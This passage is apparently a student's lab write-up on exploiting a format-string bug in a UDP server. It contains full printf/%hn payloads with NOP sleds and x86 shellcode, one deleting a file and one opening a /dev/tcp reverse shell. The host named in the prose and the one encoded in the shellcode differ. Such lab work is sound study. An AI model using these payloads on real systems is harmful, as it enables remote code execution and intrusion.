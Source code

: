 `echo $(printf "\x9c\xeb\xff\xbf")@@@@$(printf "\x9e\xeb\xff\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.60306x%hn%.54153x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x68ile \x68/myf\x68/tmp\x68/rm \x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > input`

and `nc -u localhost 9090 < input`

After that, the file is removed.

The screenshot is shown as below.

![IMG_1770](asset/pic13.png)

Since the `NOP` will do nothing about our malicious code, so when the program is executed, `NOP` will be omitted. The function of `NOP` is to provide an area to allow us to just calculate the approximate address of malicious code, no need to calculate it exactly.

## Task 7: Getting a Reverse Shell

From Task6, we know that the address of `buf[0]` is `0xbfff ebe0`, and `buf[150]` is `0xbfff ec76`

Different from Task6, we need to modify the shellcode in it, so instead of running the `/bin/rm` command using bash, our shellcode runs `/bin/bash -i > /dev/tcp/10.0.2.5/7070 0<&1 2>&1`

Also, I need to write `60534`(0xec76) to first half byte, and the remaining byte is `49151(bfff) + 65536 - 60534 = 54153`, which is the same as Task6.

The command is

` echo $(printf "\x9c\xeb\xff\xbf")@@@@$(printf "\x9e\xeb\xff\xbf")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.60306x%hn%.54153x%hn$(printf "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68bash\x68////\x68/bin\x89\xe3\x31\xc0\x50\x68-ccc\x89\xe0\x31\xd2\x52\x682>&1\x68<&1 \x6870 0\x681/70\x680.0.\x68127.\x68tcp/\x68dev/\x68 > /\x68h -i\x68/bas\x68/bin\x89\xe2\x31\xc9\x51\x52\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80") > task7input`
